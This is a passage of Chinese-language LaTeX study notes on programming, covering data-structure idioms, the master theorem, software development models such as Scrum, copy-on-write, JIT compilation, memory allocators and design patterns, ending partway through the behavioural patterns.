		(&((*pp)->left)):
		(&((*pp)->right)));
if (*pp == sentinel)
	*pp=new node(val=t, left=right=sentinel);
\end{lstlisting}
\label{problem:BSTInsert}

\subsubsection{链表条件删除}
Linus推荐用二级指针实现结点的删除:
\begin{lstlisting}[language=C++]
void remove_if(node ** head, remove_fn rm)
{
    for (node** curr = head; *curr; )
    {
        node * entry = *curr;
        if (rm(entry))
        {
            *curr = entry->next;
            free(entry);
        }
        else
            curr = &entry->next;
    }
}
\end{lstlisting}




%!Mode:: "TeX:UTF-8"


\section{编程问题总结}
\subsection{测试用例}
树类问题:完全二叉树,不完全二叉树,空树,单节点数,无左节点的树,五左子树的树。

本章包含了一些算法题目,几乎所有题目都可以用枚举的方法低效地完成,记作方法零。遇到题目,可以依次尝试枚举、分治和动态规划。

\subsection{大数据分析技巧}
将字符串哈希到N多小文件中以图分治,转为“小数据”问题。

如果要求统计频次,可使用hashmap、trie树;如果只要求统计存在性,可使用hashset,位图,bloom filter;如果统计重复性,可用2-Bitmap。
32位整数将近有43亿种取值,其位图需要512MB空间。


\subsection{空间节省技术}
\ref{problem:sparseMatrix}给出了稀疏矩阵存储方式。对于其他空间节省技术,经常是通过仅存储差量来实现,如\cite{pp}10.6.4,10.6.5。

\subsection{循环不变式}
二分搜索:待搜索值在l\dots u之间的区间中。

堆siftup:heap(1,n) except perhaps between i and its parent。

堆siftdown:heap(1,n) except perhaps between i and its (0,1,2) children

快速排序partition:

子数组最大和:

BST搜索:

\subsection{利用哨兵减少判断}
哨兵有两个意思\cite{wikipedia},一是结构化表示结尾的最末特殊值(字符串,文件,链表),二是用于消除末尾判断的特殊值。本节取第二个意思。

求最值:\cite{pp}9.5.8利用哨兵元素找出数组最大值,x[n]时刻保存当前最大值。 需要在末尾多分配一个元素对空间,即可访问x[n]。同时,如果在开头额外分配元素,则可访问x[-1]。

二分搜索:\cite{pp}9.3修改二分搜索算法,将x[-1]和x[n]看作假想的哨兵值(参\ref{codes:binsort})。

顺序搜索:\cite{pp}9.2问题3将哨兵值用在了顺序顺序搜索中,x[n]保存待搜索值。

有序链表和BST插入:参\ref{problem:listInsert}和\ref{problem:BSTInsert}。

堆siftup:首元素作哨兵,取极小值。

快速排序Partition:



\subsection{if-else灾难与switch膨胀}
转为为搜索问题(\cite{pp}3.7.1),或利用多态(\cite{refractor})。

\subsection{分治法时间复杂度}\label{DivideComplex}
\begin{displaymath}
    T(n)=aT(n/b)+f(n)
\end{displaymath}

\begin{math}
    \textrm{其中} a \ge 1, b > 1, f(n) \textrm{ is asymptotically positive}。
\end{math}

三种常见情况:
\begin{enumerate}
    \item 
\begin{displaymath}
    f(n)=O(n^{log_{b}a-\epsilon}), \epsilon>0, \textrm{则 }T(n)=\Theta(n^{log_{b}a})
\end{displaymath}

    \item 
\begin{displaymath}
    f(n)=O(n^{log_{b}a}lg^{k}n), \textrm{则 }T(n)=\Theta(n^{log_{b}a}lg^{k+1}n)
\end{displaymath}

    \item 
\begin{displaymath}
    f(n)=O(n^{log_{b}a+\epsilon}), \epsilon>0, \textrm{则}T(n)=\Theta(f(n))
\end{displaymath}

\end{enumerate}



作为特例,如果$a=b$,那么$f(n)=O(n^{-\epsilon})$意味着$T(n)$有线性复杂度;$f(n)=O(nlg^{k}n)$意味着$T(n)=\Theta(nlg^{k+1}n)$。















%!Mode:: "TeX:UTF-8"
\chapter{编程技巧}

%!Mode:: "TeX:UTF-8"
\section{软件工程开发模型}

\subsection{四大开发模型}
\textbf{瀑布模型(Waterfall Model)}是由W.W.Royce在1970年首次提出的软体开发模型,在瀑布模型中,软件开发被分为需求分析,设计,实现,测试 (确认), 集成,和维护这样的步骤依序进行。Royce提倡重复地使用瀑布模型,以一种迭代的方式。但是,大多数人并不知道这一点,一些人也不相信它能被应用在现实生活中,因为过程很少能够以连续由上而下的方式进行。 经常会需要回到前面的阶段,或改变前一阶段的结果。讽刺的是,在Royce 1970年的那篇文章中他提到:这种模型的目的是作为用来说明这种模式有缺陷,而不适用。事实上,软体开发相关文章中对这个名词的大量引用正是对这个广泛流行的软体开发做法的一种评判。瀑布模型最早强调系统开发应有完整之周期,且必须完整的经历周期之每一开发阶段,并系统化的考量分析与设计的技术、时间与资源之投入等,因此瀑布模型又可以称为‘系统发展生命周期’(System Development Life Cycle, SDLC)。由于该模式强调系统开发过程需有完整的规划、分析、设计、测试及文件等管理与控制,因此能有效的确保系统品质,它已经成为软体业界大多数软件开发的标准。

\textbf{原型模型},即快速应用程式开发 (原名:Rapid Application Development、缩写:RAD)是指一种以最小幅度的规划并迅速地将原形完成的软件发展方法论。采用RAD进行软件开发的规划是和撰写软件本身交错同时进行的。通常能在没有大量预先规划的情况下,让软件更快写完、更容易变更需求。

\textbf{螺旋模型}是一种演化软件开发过程模型,它兼顾了快速原型的迭代的特征以及瀑布模型的系统化与严格监控。螺旋模型最大的特点在于引入了其他模型不具备的风险分析,使软件在无法排除重大风险时有机会停止,以减小损失。同时,在每个迭代阶段构建原型是螺旋模型用以减小风险的途径。螺旋模型更适合大型的昂贵的系统级的软件应用。
\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/SpiralModelChinese.png}
	\caption{螺旋模型}
	\label{fig:processmemlayout}
	\end{center}
\end{figure}

\textbf{增量模型(incremental build model)}融合了瀑布模型的基本成分(重复应用)和原型实现的迭代特征,该模型采用随着日程时间的进展而交错的线性序列,每一个线性序列产生软件的一个可发布的“增量”。当使用增量模型时,第1个增量往往是核心的产品,即第1个增量实现了基本的需求,但很多补充的特征还没有发布。客户对每一个增量的使用和评估都作为下一个增量发布的新特征和功能,这个过程在每一个增量发布后不断重复,直到产生了最终的完善产品。产品被分解为多个部件,各部件独立设计构建(被称为builds)。每个部件在完成时即时提交给客户,这样就可以利用部分完成的产品,不必等待整个开发期。客户不必一下子接触到一个全新的产品。


\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/IncrementalModel.jpg}
	\caption{增量模型}
	\label{fig:processmemlayout}
	\end{center}
\end{figure}

\subsection{迭代式开发}
迭代式开发也被称作迭代增量式开发或迭代进化式开发,是一种与传统的瀑布式开发相反的软件开发过程,它弥补了传统开发方式中的一些弱点,具有更高的成功率和生产率。
在迭代式开发方法中,整个开发工作被组织为一系列的短小的、固定长度(如3周)的小项目,被称为一系列的迭代。每一次迭代都包括了需求分析、设计、实现与测试。采用这种方法,开发工作可以在需求被完整地确定之前启动,并在一次迭代中完成系统的一部分功能或业务逻辑的开发工作。再通过客户的反馈来细化需求,并开始新一轮的迭代。

\subsection{敏捷软件开发}
\textbf{敏捷软件开发(Agile software development)},又称敏捷开发,是一种从1990年代开始逐渐引起广泛关注的一些新型软件开发方法,是一种应对快速变化的需求的一种软件开发能力。它们的具体名称、理念、过程、术语都不尽相同,相对于“非敏捷”,更强调程序员团队与业务专家之间的紧密协作、面对面的沟通(认为比书面的文档更有效)、频繁交付新的软件版本、紧凑而自我组织型的团队、能够很好地适应需求变化的代码编写和团队组织方法,也更注重软件开发中人的作用。

敏捷方法有时候被误认为是无计划性和纪律性的方法,实际上更确切的说法是敏捷方法强调适应性而非预见性。
适应性的方法集中在快速适应现实的变化。当项目的需求起了变化,团队应该迅速适应。这个团队可能很难确切描述未来将会如何变化。
相比迭代式开发两者都强调在较短的开发周期提交软件,敏捷方法的周期可能更短,并且更加强调队伍中的高度协作。

通常可以在以下方面衡量敏捷方法的适用性:从产品角度看,敏捷方法适用于需求萌动并且快速改变的情况,如系统有比较高的关键性、可靠性、安全性方面的要求,则可能不完全适合;从组织结构的角度看,组织结构的文化、人员、沟通则决定了敏捷方法是否适用。最重要的因素恐怕是项目的规模。规模增长,面对面的沟通就愈加困难,因此敏捷方法更适用于较小的队伍,40、30、20、10人或者更少。大规模的敏捷软件开发尚处于积极研究的领域。

\subsection{极限编程}
极限编程(Extreme programming,缩写为XP),是一种软件工程方法学,是敏捷软件开发中最富有成效的几种方法学之一。如同其他敏捷方法学,极限编程和传统方法学的本质不同在于它更强调可适应性而不是可预测性。极限编程的支持者认为软件需求的不断变化是很自然的现象,是软件项目开发中不可避免的、也是应该欣然接受的现象;他们相信,和传统的在项目起始阶段定义好所有需求再费尽心思的控制变化的方法相比,有能力在项目周期的任何阶段去适应变化,将是更加现实更加有效的方法。

极限编程为管理人员和开发人员开出了一剂指导日常实践的良方;这个实践意味着接受并鼓励某些特别的有价值的方法。支持者相信,这些在传统的软件工程中看来是“极端的”实践,将会使开发过程比传统方法更加好的响应用户需求,因此更加敏捷,更好的构建出高质量软件。

\subsection{Rational统一过程}
Rational统一过程(RUP)是Rational软件公司(现在Rational公司被IBM并购)创造的软件工程方法。RUP描述了如何有效地利用商业的可靠的方法开发和部署软件,是一种重量级过程(也被称作厚方法学),因此特别适用于大型软件团队开发大型项目。

在软件工程领域,与RUP齐名的软件方法还有:
\begin{itemize}
\item 净室软件工程(重量级)、CMMI(重量级)
\item 极限编程(extreme programming)和其他敏捷软件开发(agile methodology)方法学(轻量级)
\end{itemize}

\subsection{Scrum}

Scrum是一种迭代式增量软件开发过程,通常用于敏捷软件开发。Scrum在英语里是橄榄球运动中争球的意思。
虽然Scrum是为管理软件开发项目而开发的,它同样可以用于运行软件维护团队,或者作为计划管理方法。Scrum之间的合作称为“Scrum of Scrums”。

Scrum是一个包括了一系列实践和预定义角色的过程骨架。Scrum中的主要角色包括:
\begin{enumerate}
\item 'Scrum Master' 是Scrum教练和团队带头人,确保团队合理的运作Scrum,并帮助团队移除实施中的障碍;
\item 产品负责人(Product Owner),确定产品的方向和愿景,定义产品发布的内容、优先级及交付时间,为产品投资报酬率(ROI)负责;
\item 开发团队(Team),一个跨职能的小团队,人数3-9人,团队拥有交付可用软件需要的各种技能。
\end{enumerate}

在每一次冲刺(a sprint or iteration, 一个15到30天的周期,其长度由开发团队决定)当中,开发团队创建可用的(可以随时推出)软件的一个增量。每一个冲刺所要实现的功能来自产品订单(product backlog)。产品订单是按照优先级排列的要完成的工作的概要的需求,哪些订单项会被加入一次冲刺将由冲刺计划会议决定。 在会议中,产品负责人告诉开发团队他需要完成产品订单中的哪些订单项。开发团队决定在下一次冲刺中他们能够承诺完成多少订单项。在冲刺的过程中,没有人能够变更冲刺订单(sprint backlog),这意味着在一个冲刺中需求是被冻结的。

管理Scrum过程有很多实施方法,从即时贴、白板,一直到软件包。Scrum最大的好处之一是它非常容易学习,而且启动Scrum应用并不需要太多的投入。
Scrum会议一共包含以下四种: 1) Sprint计划会议; 2) 每日站立会议; 3) 评审会议; 4) 回顾会议。
在冲刺中,每一天都会举行项目状况会议,被称为“scrum”或“每日站立会议”。
每一个冲刺完成后,都会举行一次冲刺回顾会议,在会议上所有团队成员都要反思这个冲刺。举行冲刺回顾会议是为了进行持续过程改进。会议的时间限制在4小时。
Scrum提倡所有团队成员坐在一起工作,进行口头交流,以及强调项目有关的规范(disciplines),这些有助于创造自我组织的团队。

Scrum的一个关键原则是承认客户可以在项目过程中改变主意,变更他们的需求,而预测式和计划式的方法并不能轻易地解决这种不可预见的需求变化。同样,Scrum采用了经验方法– 承认问题无法完全理解或定义,而是关注于如何使得开发团队快速推出和响应不断出现的需求的能力最大化。










\clearpage
%!Mode:: "TeX:UTF-8"
\section{对象生命管理}

\subsection{Persistent数据结构}
In computing, a persistent data structure is a data structure that always preserves the previous version of itself when it is modified. Such data structures are effectively immutable, as their operations do not (visibly) update the structure in-place, but instead always yield a new updated structure. (A persistent data structure is not a data structure committed to persistent storage, such as a disk; this is a different and unrelated sense of the word "persistent.")

A data structure is partially persistent if all versions can be accessed but only the newest version can be modified. The data structure is fully persistent if every version can be both accessed and modified. If there is also a meld or merge operation that can create a new version from two previous versions, the data structure is called confluently persistent. Structures that are not persistent are called ephemeral.

These types of data structures are particularly common in logical and functional programming, and in a purely functional program all data is immutable, so all data structures are automatically fully persistent. Persistent data structures can also be created using in-place updating of data and these may, in general, use less time or storage space than their purely functional counterparts.

While persistence can be achieved by simple copying, this is inefficient in CPU and RAM usage, because most operations make only small changes to a data structure. A better method is to exploit the similarity between the new and old versions to share structure between them, such as using the same subtree in a number of tree structures. However, because it rapidly becomes infeasible to determine how many previous versions share which parts of the structure, and because it is often desirable to discard old versions, this necessitates an environment with garbage collection.

\subsection{Immutable对象}
In object-oriented and functional programming, an immutable object is an object whose state cannot be modified after it is created. This is in contrast to a mutable object, which can be modified after it is created. In some cases, an object is considered immutable even if some internally used attributes change but the object's state appears to be unchanging from an external point of view. For example, an object that uses memoization to cache the results of expensive computations could still be considered an immutable object.

Immutable objects are often useful because they are inherently thread-safe. Other benefits are that they are simpler to understand and reason about and offer higher security than mutable objects.

If an object is known to be immutable, it can be copied simply by making a copy of a reference to it instead of copying the entire object. Because a reference (typically only the size of a pointer) is usually much smaller than the object itself, this results in memory savings and a potential boost in execution speed.

The reference copying technique is much more difficult to use for mutable objects, because if any user of a reference to a mutable object changes it, all other users of that reference will see the change. If this is not the intended effect, it can be difficult to notify the other users to have them respond correctly. In these situations, defensive copying of the entire object rather than the reference is usually an easy but costly solution. The observer pattern is an alternative technique for handling changes to mutable objects.

\subsection{懒拷贝}
A lazy copy is a combination of both shallow copy and deep copy. When initially copying an object, a (fast) shallow copy is used. A counter is also used to track how many objects share the data. When the program wants to modify an object, it can determine if the data is shared (by examining the counter) and can do a deep copy if necessary.

Lazy copy looks to the outside just as a deep copy but takes advantage of the speed of a shallow copy whenever possible. The downside are rather high but constant base costs because of the counter. Also, in certain situations, circular references can cause problems.

Lazy copy 与 copy-on-write 不同。



\subsection{写时拷贝}
Copy-on-write (sometimes referred to as "COW") is an optimization strategy used in computer programming. Copy-on-write stems from the understanding that when multiple separate tasks use initially identical copies of some information (i.e., data stored in computer memory or disk storage), treating it as local data that they may occasionally need to modify, then it is not necessary to immediately create separate copies of that information for each task. Instead they can all be given pointers to the same resource, with the provision that on the first occasion where they need to modify the data, they must first create a local copy on which to perform the modification (the original resource remains unchanged).

Copy-on-write finds its main use in virtual memory operating systems; when a process creates a copy of itself, the pages in memory that might be modified by either the process or its copy are marked copy-on-write. When one process modifies the memory, the operating system's kernel intercepts the operation and copies the memory thus a change in the memory of one process is not visible in another's.

Another use involves the calloc function. This can be implemented by means of having a page of physical memory filled with zeros. When the memory is allocated, all the pages returned refer to the page of zeros and are all marked copy-on-write. This way, the amount of physical memory allocated for the process does not increase until data is written. This is typically done only for larger allocations.

COW may also be used as the underlying mechanism for disk storage snapshots such as those provided by logical volume management, Microsoft Volume Shadow Copy Service or file systems such as btrfs in Linux, and ZFS on Solaris 10, Solaris 11, Illumos, OmniOS, FreeBSD and Linux.

Copy-on-write is also used in maintenance of instant snapshot on database servers like Microsoft SQL Server 2005. Instant snapshots preserve a static view of a database by storing a pre-modification copy of data when underlying data are updated. Instant snapshots are used for testing uses or moment-dependent reports and should not be used to replace backups. On the other hand, snapshots enable database back-ups in a consistent state without taking them offline.

\subsection{String interning}

In computer science, string interning is a method of storing only one copy of each distinct string value, which must be immutable. Interning strings makes some string processing tasks more time- or space-efficient at the cost of requiring more time when the string is created or interned. The distinct values are stored in a string intern pool.

The single copy of each string is called its 'intern' and is typically looked up by a method of the string class, for example String.intern() in Java. All compile-time constant strings in Java are automatically interned using this method.

Objects other than strings can be interned. For example, in Java, when primitive values are boxed into a wrapper object, certain values (any boolean, any byte, any char from 0 to 127, and any short or int between −128 and 127) are interned, and any two boxing conversions of one of these values are guaranteed to result in the same object.


String interning是flyweight设计模式的一个应用实例。































%!Mode:: "TeX:UTF-8"
\section{编程语言}

动态语言,是指程序在运行时可以改变其结构:新的函数可以被引进,已有的函数可以被删除等在结构上的变化。比如众所周知的ECMAScript(JavaScript)便是一个动态语言。除此之外如Ruby、Python等也都属于动态语言,而C、C++等语言则不属于动态语言。


\subsection{JIT}


即时编译(英语:Just-in-time compilation),又译及时编译、实时编译,动态编译的一种形式,是一种提高程序运行效率的方法。通常,程序有两种运行方式:静态编译与动态直译。静态编译的程序在执行前全部被翻译为机器码,而直译执行的则是一句一句边运行边翻译。

即时编译器则混合了这二者,一句一句编译源代码,但是会将翻译过的代码缓存起来以降低性能损耗。相对于静态编译代码,即时编译的代码可以处理延迟绑定并增强安全性。

即时编译器有两种类型,一是字节码翻译,二是动态编译翻译。

微软的.NET Framework,还有绝大多数的Java实现,都依赖即时编译以提供高速的代码执行。Mozilla Firefox使用的JavaScript引擎SpiderMonkey也用到了JIT的技术。Ruby的第三方实现Rubinius和Python的第三方实现PyPy也都通过JIT来明显改善了解释器的性能。

\url{http://en.wikipedia.org/wiki/Just-in-time_compilation}

In computing, just-in-time compilation (JIT), also known as dynamic translation, is compilation done during execution of a program – at run time – rather than prior to execution. Most often this consists of translation to machine code, which is then executed directly, but can also refer to translation to another format.
JIT compilation is a combination of the two traditional approaches to translation to machine code – ahead-of-time compilation (AOT), and interpretation – and combines some advantages and drawbacks of both. Roughly, JIT compilation combines the speed of compiled code with the flexibility of interpretation, with the overhead of an interpreter and the additional overhead of compiling (not just interpreting). JIT compilation is a form of dynamic compilation, and allows adaptive optimization such as dynamic recompilation – thus in principle JIT compilation can yield faster execution than static compilation. Interpretation and JIT compilation are particularly suited for dynamic programming languages, as the runtime system can handle late-bound data types and enforce security guarantees.

JIT compilation can be applied to a whole program, or can be used for certain capacities, particularly dynamic capacities such as regular expressions. For example, a text editor may compile a regular expression provided at runtime to machine code to allow faster matching – this cannot be done ahead of time, as the data is only provided at run time. Several modern runtime environments rely on JIT compilation for high-speed code execution, most significantly most implementations of Java, together with Microsoft's .NET Framework. Similarly, many regular expression libraries ("regular expression engines") feature JIT compilation of regular expressions, either to bytecode or to machine code.
A common implementation of JIT compilation is to first have AOT compilation to bytecode (virtual machine code), known as bytecode compilation, and then have JIT compilation to machine code (dynamic compilation), rather than interpretation of the bytecode. This improves the runtime performance compared to interpretation, at the cost of lag due to compilation. JIT compilers translate continuously, as with interpreters, but caching of compiled code minimizes lag on future execution of the same code during a given run. Since only part of the program is compiled, there is significantly less lag than if the entire program were compiled prior to execution.


%!Mode:: "TeX:UTF-8"
\section{无锁队列}

\url{http://www.infoq.com/news/2014/10/cpp-lock-free-programming}
\url{http://coolshell.cn/articles/8239.html}
下面的东西主要来自John D. Valois 1994年10月在拉斯维加斯的并行和分布系统系统国际大会上的一篇论文——《\href{http://citeseerx.ist.psu.edu/viewdoc/download?doi=10.1.1.53.8674&rep=rep1&type=pdf}
{Implementing Lock-Free Queues}》。

\url{http://www.ibm.com/developerworks/cn/aix/library/au-multithreaded_structures2/index.html}
\url{http://www.codeproject.com/Articles/153898/Yet-another-implementation-of-a-lock-free-circular}

某个帖子
\url{http://moodycamel.com/blog/2014/a-fast-general-purpose-lock-free-queue-for-c++}




























%!Mode:: "TeX:UTF-8"
\section{内存分配模式}
\label{sec:memallocidioms}
\url{http://blog.csdn.net/absurd/article/details/937803}
《POSA》中根据模式粒度把模式分为三类:架构模式、设计模式和惯用手法。其中把分层模式、管道过滤器和微内核模式等归为架构模式,把代理模式、命令模式和出版-订阅模式等归为设计模式,而把引用计数等归为惯用手法。这三类模式间的界限比较模糊,在特定的情况,有的设计模式可以作为架构模式来用,有的把架构模式也作为设计模式来用。
内存分配的惯用手法包括:
\begin{itemize}
\item 预分配。预分配机制比较常见,多见于一些带buffer的容器实现中,比如像vector和string等。
\item 对象引用计数
\item 写时拷贝(COW)。OS内核创建子进程的过程是最常见而且最有效的COW例子
\item 固定大小分配。这种方式通常也叫做缓冲池(pool)分配。缓冲池(pool)先分配一块或者多块连续的大块内存,把它们分成N块大小相等的小块内存,然后进行二次分配。固定大小分配运用比较广泛,差不多所有的内存管理器都用这种方法来对付小块内存,比如glibc、STLPort和linux的slab等。
\item 会话缓冲池分配(Session Pool)。它基于多次分配一次释放的策略,在过程开始时创建会话缓冲池(Session Pool),这个过程中所有内存分配都通过会话缓冲池(Session Pool)来分配,当这个过程完成时,销毁掉会话缓冲池(Session Pool),即释放这个过程中所分配的全部内存。会话缓冲池分配并不是太常见,apache采用的这种用法。
\end{itemize}

Glibc分配算法思想(参\ref{sec:glibc-malloc}):
\begin{itemize}
\item 小于等于64字节:用pool算法分配
\item 64到512字节之间:在最佳凭配算法分配和pool算法分配中取一种合适的
\item 大于等于512字节:用最佳凭配算法分配
\item 大于等于128K:直接调用OS提供的函数(如mmap)分配
\end{itemize}


SGI STL有两级内存分配器,第一级简单封装malloc和free,第二级回应用户的内存分配请求,重点解决小额内存块问题。
当区块足够大,超过128字节时,交给第一级分配器处理。维护了16个内存池,块大小从8到128,均按照8字节对齐。还有一个为16个内存池蓄水的总池,总池只分配,不回收。当内存不够时还做了许多精细处理,包括各池互借等。
池块节点的维护也很巧妙,因为已被分配的块不需要维护节点信息,而未必分配的块不包含用户数据,可用union来管理:
\begin{lstlisting}[language=C++]

union obj{
  union obj *free_list_link;
  char client_data[1];
};
};

\end{lstlisting}

OCTEON FPA内存池有8个,对应8种不同的块大小,用硬件分配释放,也属于预分配思想。

Hili框架内存池为动态创建,池块大小随意,对齐成8字节,用链表维护。由于是为任意应用类型开辟新池,实际上是一种slab分配器。
STL的内存池用于形形色色的对象创建,而Hili内存池各层次会话结构缓存,目标不同。

boost.pool库提供了四种内存池:pool用于POD(Plain Old Data)类型,object\_pool用于分配类实例,还有单件内存池singleton\_pool和可用于标准库的pool\_alloc。
pool类采用了定长内存池和一次性释放思想,在pool销毁时自动释放。object\_pool模板类对pool进行了保护继承,其construct和destroy接口在内存分配的同时还调用类的构造和析构函数。
singleton\_pool本身是个单件,所有接口都是静态的,并提供线程安全,它为POD类型分配内存,分配的块长通过模板参数而非构造函数参数来指定。


\section{Java内存泄露}
在Java中,内存泄漏就是存在一些被分配的对象,这些对象有下面两个特点,首先,这些对象是可达的,即在有向图中,存在通路可以与其相连;其次,这些对象是无用的,即程序以后不会再使用这些对象。如果对象满足这两个条件,这些对象就可以判定为Java中的内存泄漏,这些对象不会被GC所回收,然而它却占用内存。

在C++中,内存泄漏的范围更大一些。有些对象被分配了内存空间,然后却不可达,由于C++中没有GC,这些内存将永远收不回来。在Java中,这些不可达的对象都由GC负责回收,因此程序员不需要考虑这部分的内存泄露。

通过分析,我们得知,对于C++,程序员需要自己管理边和顶点,而对于Java程序员只需要管理边就可以了(不需要管理顶点的释放)。通过这种方式,Java提高了编程的效率。

Java中也有内存泄漏,但范围比C++要小一些。因为Java从语言上保证,任何对象都是可达的,所有的不可达对象都由GC管理。



\section{内存调试手段}

\subsection{应用程序层次的防御}
\textbf{对付内存泄露}:重载内存管理函数,在分配时,把这块内存的记录到一个链表中,在释放时,从链表中删除吧,在程序退出时,检查链表是否为空,如果不为空,则说明有内存泄露,否则说明没有泄露。当然,为了查出是哪里的泄露,在链表还要记录是谁分配的,通常记录文件名和行号就行了。

\textbf{对付内存越界/野指针}:
只能做到部分防御。malloc返回的内存在首尾在加保护边界值,随时检测是否被越界改写。被free的时候再用其他标志覆盖,随时检测一个指针是否是已被free的内存。

\subsection{编译器层次的防御}
如gcc的bounds checker在编译时修改源程序,对所有的内存操作做簿记(分配、释放、读写),管理所有的内存块(堆、栈、全局、静态),拦截所有的指针操作(p++,p=a[n])。Valgrind,purify通过修改可执行文件做相似的事情。












%!Mode:: "TeX:UTF-8"
\section{面向对象编程与设计模式}
\subsection{面向对象思想}
面向对象的三大特征:封装,继承,多态。

面向对象和基于对象的区别是,后者不涉及多态。

面向对象的五个基本原则:
\begin{description}
  \item [单一职责原则(Single-Resposibility Principle)]可以看做是低耦合、高内聚在面向对象原则上的引申
  \item [开放封闭原则(Open-Closed principle)]对扩展开放,对修改封闭的。
  \item [Liskov替换原则(Liskov-Substituion Principle)]子类必须能够替换其基类。
  \item [依赖倒置原则(Dependecy-Inversion Principle)] 其核心思想是:依赖于抽象。具体而言就是高层模块不依赖于底层模块,二者都同依赖于抽象;抽象不依赖于具体,具体依赖于抽象。抽象的稳定性决定了系统的稳定性,因为抽象是不变的,依赖于抽象是面向对象设计的精髓,也是依赖倒置原则的核心。依赖于抽象,就是对接口编程,不要对实现编程。
  \item [接口隔离原则(Interface-Segregation Principle)]使用多个小的专门的接口,而不要使用一个大的总接口。
\end{description}

\subsection{5个创建型模式}
\begin{description}
\item [ABSTRACT FACTORY(抽象工厂)]别名:Kit。
提供一个创建一系列相关或相互依赖对象的接口,而无需指定它们具体的类。
它使得易于交换产品系列,有利于产品的一致性,但难以支持新种类的产品。
抽象工厂类可用工厂方法实现,也可用Prototype实现。一个具体的工厂可以是Singleton。
\item [BUILDER(生成器)]
将一个复杂对象的构建与它的表示分离,使得同样的构建过程可以创建不同的表示。
\item [FACTORY METHOD(工厂方法)]别名:虚构造器( Virtual Constructor)。
定义一个用于创建对象的接口,让子类决定实例化哪一个类。 Factory Method使一个类的实例化延迟到其子类。
\item [PROTOTYPE(原型)]
用原型实例指定创建对象的种类,并且通过拷贝这些原型创建新的对象。
\item [SINGLETON(单件)]保证一个类仅有一个实例,并提供一个访问它的全局访问点。
不死鸟单体(Phoenix Singleton)定义了单体的销毁操作,可以死而复生。
\end{description}

\subsection{7个结构型模式}
\begin{description}
\item [ADAPTER(适配器)]
别名:Wrapper。将一个类的接口转换成客户希望的另外一个接口,使得原本由于接口不兼容而不能一起工作的那些类可以一起工作。适配器模式和外观模式的区别是,前者复用既有接口,后者定义新接口。
\item [BRIDGE(桥接)]
别名: Handle/Body。将抽象部分与它的实现部分分离,使它们都可以独立地变化。
\item [COMPOSITE(组合)]
将对象组合成树形结构以表示“部分 -整体”的层次结构,使得用户对单个对象和组合对象的使用具有一致性。
例如:多个层次的视图部件组合成一个文档。
\item [DECORATOR(装饰)]
别名:Wrapper。动态地给一个对象添加一些额外的职责。就增加功能来说, Decorator模式相比生成子类更为灵活。例如:一些GUI工具箱为窗口组件添加图形装饰。装饰模式和组合模式具有类似的结构图,说明它们都基于递归组合来组织可变数量的对象。但组合模式旨在构造类使得多个相关对象能够以统一方式处理,多重对象被当作一个对象处理。
\item [FACADE(外观)]
为子系统中的一组接口提供一个一致的界面, 该模式定义了一个高层接口,这个接口使得这一子系统更加容易使用。例如:编译器前端。
\item [FLYWEIGHT(享元)]
运用共享技术有效地支持大量细粒度的对象。例如文档编辑器为每种字符(如128个ASCII字符)共享一个flyweight对象。享元模式常伴随引用计数和垃圾回收。可以用享元模式实现State和Strategy对象。
\item [PROXY(代理)]
别名:Surrogate。为其他对象提供一种代理以控制对这个对象的访问。常见场景:远程代理(隐藏对象不在本地的事实)、虚代理(可按需创建对象,如加载文档时用只知道图片大小的ImageProxy代理不在第一页的图片)、保护代理和智能指针。后两种情况允许访问一个对象前有一些附加的HouseKeeping Task。
\end{description}

\subsection{11个行为型模式}
\begin{description}
\item [CHAIN OF RESPONSIBILITY(职责链)]
使多个对象都有机会处理请求,从而避免请求的发送者和接收者之间的耦合关系。
	将这些对象连成一条链,并沿着这条链传递该请求,直到有一个对象处理它为止。
	如用户点击帮助时,按照按钮 - 对话框 - 应用程序顺序向UI中的一个组件请求帮助信息。
\item [COMMAND(命令)]
别名:动作(Action),事务(Transaction)。
将请求封装为一个对象,从而使你可用不同的请求对客户进行参数化;对请求排队或记录请求日志,以及支持可撤销的操作。
Command对象将接受者对象绑定于一个动作,并调用接受者的动作。命令模式将操作的调用者和接受者进行解耦。可用于实现GUI菜单。
\item [INTERPRETER(解释器)]给定一个语言,定义它的文法的一种表示,并定义一个解释器,这个解释器使用该表示来解释语言中的句子。
用于语法树分析。只适用于简单的文法和对效率要求不高的场合。
\item [ITERATOR(迭代器)]
别名:游标(Cursor)。提供一种方法顺序访问一个聚合对象中各个元素 , 而又不需暴露该对象的内部表示。
\item [MEDIATOR(中介者)]
